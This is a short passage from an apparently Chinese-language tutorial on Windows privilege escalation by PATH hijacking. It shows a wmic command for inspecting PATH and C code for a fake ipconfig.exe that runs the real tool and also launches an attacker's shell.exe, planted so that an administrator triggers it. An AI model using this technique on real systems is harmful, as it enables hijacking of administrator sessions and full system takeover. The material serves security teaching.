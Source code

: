 ```
2、查找环境变量，发现前面有python作为环境变量PATH的目录。
wmic ENVIRONMENT where "name='path'" get UserName, VariableValue
```

![image-20241015132303496](操作系统提权/image-20241015132303496.png)	

```c
那么控制的普通用户，将这段c语言进行编译成ipconfig.exe，并且把这个exe文件放到python环境变量的目录下。
#include<stdio.h>
#include<stdlib.h>
int main(){
    // 使用 system 函数执行 ipconfig.exe
    system("\"C:\\Windows\\System32\\ipconfig.exe\"");
    
    // 使用 system 函数执行 shell.exe
	system("\"C:\\USERS\\test\\Desktop\\shell.exe\"");
    return 0;
}
```

![image-20241015132417639](操作系统提权/image-20241015132417639.png)	

```
等待管理员运行这个ipconfig命令
```
